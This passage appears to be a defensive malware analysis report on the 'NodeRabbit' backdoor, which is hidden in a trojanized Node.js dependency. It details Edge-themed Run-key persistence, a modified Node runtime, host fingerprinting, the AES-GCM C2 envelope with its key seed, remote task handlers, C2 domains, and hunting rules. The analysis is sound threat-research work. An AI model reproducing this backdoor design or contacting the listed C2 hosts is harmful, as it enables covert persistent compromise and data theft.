

6.4 Modified Node Runtime and Reboot Persistence
The legitimate Node.js runtime and dropped nodew.exe were both 82,818,704 bytes, but their SHA-256 hashes differed. PE inspection showed the original runtime using Subsystem 3 (Console) and the dropped copy using Subsystem 2 (Windows GUI). Authenticode validation was valid for the original runtime and HashMismatch for nodew.exe, consistent with post-signing modification of the copied executable.
A reboot test was performed after terminating active Node/NodeW processes while leaving the Run key in place. After login, nodew.exe automatically relaunched msedge_update.js and re-established 127.0.0.1:48739. This independently confirms operational persistence across reboot/login.
| Property | node.exe | nodew.exe |
|---|---|---|
| Size | 82,818,704 bytes | 82,818,704 bytes |
| SHA-256 | b3b117a08ee61efee09e6fd523ab33c0c018da1b570bde08e4fd914dc1170ed6 | 575fa9b11c4f512ebf55963b9aa0b408255481dd4385e80a630679d3bd2e62cd |
| PE Subsystem | 3 - Console | 2 - Windows GUI |
| Authenticode | Valid | HashMismatch |
| Purpose | Legitimate installed Node.js runtime | Masqueraded persistence runtime |
7. Host Fingerprinting and Victim Identification
The instrumented payload queried os.hostname(), os.userInfo(), os.platform(), os.arch() and os.networkInterfaces(). In the lab, the process reported hostname akmal, username akmal, platform win32, architecture x64, MAC 00:0c:29:d5:d1:6c and IPv4 192.168.38.129. The x64 value reflects the Node.js process architecture observed inside the Windows ARM environment.
7.1 Agent ID Derivation
NodeRabbit forms the victim-fingerprint input as hostname|username|platform|architecture|first external non-zero MAC. It computes SHA-256 over this string and uses the first 32 hexadecimal characters as the persistent agent ID.
Input: akmal|akmal|win32|x64|00:0c:29:d5:d1:6c
SHA-256: 6b05ea473d024313477dcc60ee98360e24f2636e3230b178976049a3d3a6436b
Agent ID: 6b05ea473d024313477dcc60ee98360e
7.2 Automatically Collected Check-in Data
| Field | Observed Lab Value | Role |
|---|---|---|
| agentId | 6b05ea473d024313477dcc60ee98360e | Stable victim identifier derived from host fingerprint. |
| hostname | akmal | Victim system identification. |
| username | akmal | Logged-in account identification. |
| os | win32 | Platform identification. |
| pid | 2836 (instrumented run) | Malware process identifier. |
| ips | 192.168.38.129 | Non-loopback IPv4 address. |
| MAC | 00:0c:29:d5:d1:6c | Used in agent-ID derivation; not present in captured check-in JSON. |
| architecture | x64 | Used in agent-ID derivation; not present in captured check-in JSON. |
8. C2 Protocol and Encryption
8.1 Dynamically Observed C2 Infrastructure
| Domain | Observed Path(s) | Observation |
|---|---|---|
| plugplay.azurewebsites[.]net | /api/rabbit/checkin; /api/rabbit/task | HTTPS POST request construction observed. |
| rgbteller.azurewebsites[.]net | /api/rabbit/checkin; /api/rabbit/task | HTTPS POST request construction observed. |
| wslwebui.azurewebsites[.]net | /api/rabbit/checkin; /api/rabbit/task | HTTPS POST request construction observed. |
The request helper rotates browser-like User-Agent strings and sets rejectUnauthorized: false, disabling standard TLS certificate verification. DNS lookup and TLS-connect calls for the three C2 domains were captured in the same instrumented NodeRabbit PID. The outbound firewall and host-only networking prevented intentional live C2 interaction.

8.2 Encryption and Envelope
The payload derives a fixed 32-byte AES key by computing SHA-256 over the seed 7934ab686d6a3ab58c124abf6b671045c02163a2c4321ddfd51777894461b4c5. It encrypts request plaintext using AES-256-GCM with a fresh 12-byte IV. The transmitted d field is Base64(IV || ciphertext || 16-byte GCM authentication tag).
| Parameter | Observed / Recovered Value |
|---|---|
| Cipher | AES-256-GCM |
| Key seed | 7934ab686d6a3ab58c124abf6b671045c02163a2c4321ddfd51777894461b4c5 |
| Derived AES key | 6a48a9bfa143b60f49ced5eefe528dcd436fbd01ea9d943f4fd0d570f0e621b7 |
| Key length | 32 bytes |
| IV length | 12 bytes, randomized per operation |
| Authentication tag | 16 bytes |
| d | Base64(IV || ciphertext || tag) |
| _r | 4 random bytes encoded as 8 hexadecimal characters |
| _t | Date.now() epoch milliseconds |
The first captured plaintext check-in was:
{"agentId":"6b05ea473d024313477dcc60ee98360e","hostname":"akmal","username":"akmal","os":"win32","pid":2836,"ips":["192.168.38.129"]}
Evidence: Dynamic - Instrumented
8.4 Instrumented Persistence Trace
The preload hook also captured the exact child-process calls used to query and create the MicrosoftEdgeUpdate Run value and to spawn the persisted JavaScript payload as a detached hidden child. This provides API-level confirmation that complements Procmon and PowerShell evidence.

9. Remote Task Capabilities
Deobfuscation recovered a task dispatcher that can perform system discovery, process discovery and launch, arbitrary file operations, network configuration discovery, polling control and arbitrary JavaScript execution. Because no live task was received in the isolated laboratory, the handlers below are classified as static capabilities rather than dynamically executed attacker actions.
| Task | Behavior | Potential Security Impact | Evidence |
|---|---|---|---|
| sys:info | Returns hostname, domain/workgroup + username, and malware PID. | System reconnaissance. | Static |
| proc:list | Runs tasklist.exe /FO CSV /NH on Windows. | Process discovery. | Static |
| proc:start | Starts attacker-selected command using shell execution with timeout. | Arbitrary command/process execution. | Static |
| fs:list | Enumerates a directory and metadata. | File/directory discovery. | Static |
| fs:read | Reads a file chunk and returns Base64. | Potential data exfiltration. | Static |
| fs:write | Decodes Base64 and writes at an offset; creates parent directories. | File creation/modification; payload staging. | Static |
| fs:delete | Deletes files or recursively removes directories. | Destructive integrity/availability impact. | Static |
| fs:mkdir | Creates directories recursively. | Filesystem preparation. | Static |
| net:config | Collects host, OS, DNS and interface data. | Network/environment discovery. | Static |
| agent:sleep | Updates polling interval. | Operator control of beacon frequency. | Static |
| script:exec | Writes Base64-decoded JavaScript to a random temp file, executes it with Node, captures output, then removes it. | Arbitrary JavaScript execution / extensibility. | Static |
The command set makes NodeRabbit a general-purpose backdoor rather than a single-purpose information stealer. The strongest risk is the operator-controlled ability to read, write and delete files and execute commands or JavaScript after C2 tasking.
10. Indicators of Compromise
10.1 File and Registry Indicators
| Type | Indicator |
|---|---|
| SHA-256 - main payload | 33e06896cf04c490f6c7e92e286d13c80ea16837a813cd952aa614183f36ffd8 |
| SHA-256 - trojanized loader | 157e3fb5f5ee95514f24eddc57bf84d7c7dc8391ddfda6382db459298d700061 |
| SHA-256 - server.js | 0d0b64952c5f738969cb00ba0d2ea46b8e30f677f38cdccf135b7b3e2940aa6d |
| SHA-256 - nodew.exe | 575fa9b11c4f512ebf55963b9aa0b408255481dd4385e80a630679d3bd2e62cd |
| Payload path | node_modules\.cache\.320697f1\index.js |
| Windows payload persistence | %APPDATA%\Microsoft\EdgeUpdate\msedge_update.js |
| Windows runtime persistence | %APPDATA%\Microsoft\EdgeUpdate\nodew.exe |
| Run key | HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MicrosoftEdgeUpdate |
| Local listener | 127.0.0.1:48739 |
10.2 Network Indicators
| Type | Indicator |
|---|---|
| Domain | plugplay.azurewebsites[.]net |
| Domain | rgbteller.azurewebsites[.]net |
| Domain | wslwebui.azurewebsites[.]net |
| API path | /api/rabbit/checkin |
| API path | /api/rabbit/task |
| API path | /api/rabbit/result |
10.3 Cross-Platform Static Persistence Indicators
| Platform | Indicator / Mechanism |
|---|---|
| Linux | ~/.config/microsoft-edge-update/msedge_update.js and an @reboot crontab entry. |
| macOS | ~/.config/microsoft-edge-update/msedge_update.js and ~/Library/LaunchAgents/com.microsoft.edgeupdate.plist using RunAtLoad/KeepAlive. |
Cross-platform persistence was recovered statically but was not dynamically validated in this Windows-focused analysis.
11. MITRE ATT&CK Mapping
This section separates analyst-validated ATT&CK techniques from VirusTotal-reported mappings so that automated sandbox classifications are not conflated with behaviors independently established during this investigation.
11.2 VirusTotal-Reported ATT&CK Mapping (Third-Party)
VirusTotal also reported the following ATT&CK techniques from its automated and sandbox-derived analysis. These entries are retained as third-party context and are not treated as independently confirmed unless they correlate with the static, deobfuscated, raw dynamic, or instrumented evidence in this report. VirusTotal labels TA0005 as “Stealth” in the supplied view; the corresponding MITRE ATT&CK tactic is Defense Evasion.
| Tactic | Technique | ID |
|---|---|---|
| Execution (TA0002) | Command and Scripting Interpreter | T1059 |
| Execution (TA0002) | Native API | T1106 |
| Execution (TA0002) | Shared Modules | T1129 |
| Execution (TA0002) | Hijack Execution Flow | T1574 |
| Privilege Escalation (TA0004) | Process Injection | T1055 |
| Defense Evasion / “Stealth” (TA0005) | Obfuscated Files or Information | T1027 |
| Defense Evasion / “Stealth” (TA0005) | Process Injection | T1055 |
| Defense Evasion / “Stealth” (TA0005) | Indirect Command Execution | T1202 |
| Defense Evasion / “Stealth” (TA0005) | Virtualization/Sandbox Evasion | T1497 |
| Defense Evasion / “Stealth” (TA0005) | Impair Defenses | T1562 |
| Defense Evasion / “Stealth” (TA0005) | Hijack Execution Flow | T1574 |
| Discovery (TA0007) | System Owner/User Discovery | T1033 |
| Discovery (TA0007) | System Information Discovery | T1082 |
| Discovery (TA0007) | Virtualization/Sandbox Evasion | T1497 |
| Discovery (TA0007) | Software Discovery | T1518 |
| Command and Control (TA0011) | Application Layer Protocol | T1071 |
| Command and Control (TA0011) | Encrypted Channel | T1573 |
| Impact (TA0040) | Data Destruction | T1485 |
12. Detection, Hunting and Response Recommendations
12.1 Detection and Hunting
- Alert on the main payload, loader and nodew.exe SHA-256 values listed in Section 10.
- Hunt for %APPDATA%\Microsoft\EdgeUpdate containing both msedge_update.js and nodew.exe, particularly when nodew.exe is an invalidly signed copy of Node.js.
- Monitor HKCU\Software\Microsoft\Windows\CurrentVersion\Run for a value named MicrosoftEdgeUpdate that points to user-profile JavaScript and a non-standard nodew.exe.
- Detect node.exe launched from an application project and spawning node_modules\.cache\.320697f1\index.js as a detached/hidden child.
- Alert when node.exe or nodew.exe creates or owns a listener on 127.0.0.1:48739.
- Hunt DNS/proxy logs for plugplay.azurewebsites[.]net, rgbteller.azurewebsites[.]net and wslwebui.azurewebsites[.]net, especially requests containing /api/rabbit/ paths.
- Monitor reg.exe or cmd.exe children of Node.js processes that query or modify the per-user Run key.
- Look for Node.js copies in user-writable update-like directories whose Authenticode status is HashMismatch while the file size closely matches the installed Node runtime.
12.2 Response if Detected
- Isolate the endpoint from the network before interacting with the running process.
- Terminate malicious node.exe/nodew.exe processes after evidence capture and confirm TCP 48739 is no longer listening.
- Remove the MicrosoftEdgeUpdate Run value and the %APPDATA%\Microsoft\EdgeUpdate persistence directory after preserving forensic copies.
- Search the host for the payload hash and the .320697f1 cache path, including developer project directories and bundled node_modules.
- Review file access, process execution and command history because fs:read, fs:write, fs:delete, proc:start and script:exec enable broader post-compromise activity if tasking occurred.
- Review proxy/DNS/firewall telemetry to determine whether a successful C2 session preceded containment. If successful interaction cannot be ruled out, treat credentials and sensitive files accessible to the user as potentially exposed and apply the organization's credential-reset and incident-response procedures.
13. Risk Assessment
| Dimension | Rating | Rationale |
|---|---|---|
| Execution | High | Can launch arbitrary processes and execute attacker-supplied JavaScript through task handlers. |
| Persistence | High | Per-user Run-key persistence survives reboot/login and uses a hidden modified Node runtime. |
| Confidentiality | High | Can read arbitrary file chunks and return results to C2; automatically collects host identity/network data. |
| Integrity | High | Can write and delete files and launch commands. |
| Availability | Medium-High | Recursive deletion and arbitrary command execution could disrupt the endpoint. |
| Stealth | High | Obfuscation, EdgeUpdate masquerading, detached/hidden child processes and encrypted C2 increase detection difficulty. |
| Overall | HIGH | Persistent remote backdoor with broad operator-controlled filesystem and execution capabilities. |
14. Evidence Matrix and Limitations
| Behavior | Raw Dynamic | Instrumented | Static | Conclusion |
|---|---|---|---|---|
| server.js -> hidden payload process | Yes | N/A | Yes | Confirmed |
| 127.0.0.1:48739 listener | Yes | Yes | Yes | Confirmed |
| EdgeUpdate persistence files | Yes | Observed via spawned persistent payload | Yes | Confirmed |
| MicrosoftEdgeUpdate Run value | Yes | Yes | Yes | Confirmed |
| Reboot persistence | Yes | N/A | Yes | Confirmed |
| Host fingerprint collection | Partial | Yes | Yes | Confirmed |
| Agent-ID SHA-256 derivation | No | Yes | Yes | Confirmed |
| AES-256-GCM request encryption | No | Yes | Yes | Confirmed |
| Three C2 hostnames | Host-level partial DNS in earlier run | Yes, PID-attributed request construction | Yes | Confirmed request targets |
| /api/rabbit/checkin | No plaintext visibility | Yes | Yes | Confirmed request construction |
| /api/rabbit/task | No plaintext visibility | Yes | Yes | Confirmed request construction |
| /api/rabbit/result | No | No | Yes | Static only |
| Operator task execution | No | No | Handlers recovered | Not dynamically confirmed |
14.1 Analysis Limitations
- The laboratory intentionally blocked live C2 communication; therefore successful server responses, attacker-issued tasks and task-result delivery were not observed.
- The instrumented run directly loaded the main payload with a Node.js preload hook. This provides strong visibility into API calls and pre-encryption data but changes runtime timing and is reported separately from the raw run.
- The /api/rabbit/result path and command handlers were recovered statically rather than reached through live C2 tasking.
- The VM timezone was inconsistent during some sessions; event sequencing and UTC runtime-hook timestamps were used where possible.
- VirusTotal screenshots represent third-party detections at the time of capture and may change; they are supplementary rather than primary evidence.
- The analysis did not observe browser credential theft or document collection on startup. This does not eliminate potential later access to files through the operator-controlled fs:read function.
15. Conclusion
The supplied project contains a confirmed NodeRabbit backdoor. A trojanized dependency silently spawns the hidden payload, which establishes a localhost single-instance guard, installs deceptive Microsoft Edge-themed persistence, modifies a copied Node.js runtime to suppress the console window, and survives reboot/login through a current-user Run key.
Instrumented execution independently confirmed the victim-fingerprinting algorithm, the 32-character agent ID, AES-256-GCM encryption parameters, plaintext check-in structure and process-attributed construction of HTTPS requests to all three configured C2 domains. The request envelope and /api/rabbit/checkin and /api/rabbit/task endpoints were dynamically observed without permitting a live C2 session.
Static deobfuscation shows that the backdoor can enumerate processes and files, read/write/delete files, gather network information, start arbitrary commands, alter beacon timing and execute attacker-supplied JavaScript. These capabilities materially elevate the risk beyond the automatically collected host profile. No successful remote tasking, /api/rabbit/result transmission, browser-credential theft or document exfiltration was observed during the controlled analysis.
Appendix A. VirusTotal Reputation Evidence
The following VirusTotal screenshots were supplied as supporting context. They are time-sensitive and are not used as the sole basis for identifying behavior or attribution. At the time of capture on 7 September 2026, the three check-in URLs shown below were each flagged by 5 of 90 URL-security vendors. A Front-Technical-Challenge.zip / inner-archive reputation snapshot (SHA-256 307ce2448211a5f5d122643f2a739aff33ede72c1858518c8de098f3148bbd00) showed 4 of 37 vendors flagging the archive, while the separately captured NodeRabbit-Sample.zip archive was flagged by 5 of 58 file-security vendors. These reputation counts may change over time.


